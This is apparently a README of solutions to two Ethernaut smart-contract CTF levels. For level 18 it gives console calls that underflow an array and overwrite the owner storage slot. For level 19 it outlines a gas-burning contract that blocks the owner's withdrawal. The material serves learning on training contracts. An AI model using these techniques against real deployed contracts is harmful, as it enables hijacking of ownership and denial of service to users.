 # Ethernaut-Solutions

Solutions to some of Openzeppelins's Ethernaut Challenges


Level 18.

Steps to pass the level: 
1. Run the attached contract's one() function on Remix and copy the value stored in the variable.
2. run the following commands : 
await contract.make_contact()
await contract.retract();
await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', '0x000000000000000000000000318Edb8407bc022556989429EAC679F1e4001B5c');


Level 19

Simply use up all the gas when sending eth to partner. No gas is left for a transfer to owner in the end. 
Steps to pass the level:
1. Deploy the malicious contract
2. Call Level 19's withdraw function()
3. Submit.
